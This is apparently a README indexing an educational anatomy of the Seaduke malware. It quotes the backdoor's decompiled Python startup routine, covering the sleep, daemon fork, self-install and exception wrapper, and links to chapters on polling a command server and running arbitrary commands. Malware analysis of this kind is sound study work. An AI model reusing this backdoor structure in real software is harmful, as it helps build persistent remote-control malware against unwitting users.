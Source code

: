 # what is this?
an anatomy of [seaduke](https://github.com/pan-unit42/iocs/blob/master/seaduke/decompiled.py)

```python
if __name__=="__main__":
    time_sleep(botKlass.run_delay)
    if not botKlass.was_first_run:
        botKlass.was_first_run = True
    if v_sys_platform != 'win32':
        forkmeiamfamous()
    me = BotInstallKlass(botKlass.key_id)

    try:
        seh_wrapper()
    except SystemExit:
        me = None
        time_sleep(1)
        sys_exit(0)
    except Exception as e:
        me = None
        time_sleep(1)
        sys_exit(0)
```
* initializing [bot settings](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/bot_settings.md) so bot knows how to bot
* forking itself so it can run as a [daemon/background process](https://github.com/mynameisvinn/Seaduke/blob/master/fork.md)
* [installing](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/install.md) botKlass, which really means carving space for itself on disk
* [seh_wrapper](https://github.com/mynameisvinn/Seaduke/blob/master/sehwrapper.md)
* doing an [event loop](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/loop.md) and polling for instructions
* how does seaduke [fetch instructions](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/fetch.md) from the mothership?
	* fetching resources with [urllib](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/url.md)
* [decode](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/decode.md) tasks
* [executing tasks](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/execution.md) with `threadStuffKlass`
* executing [arbitrary commands](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/commands.md)
    * [saving](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/save.md) bot bot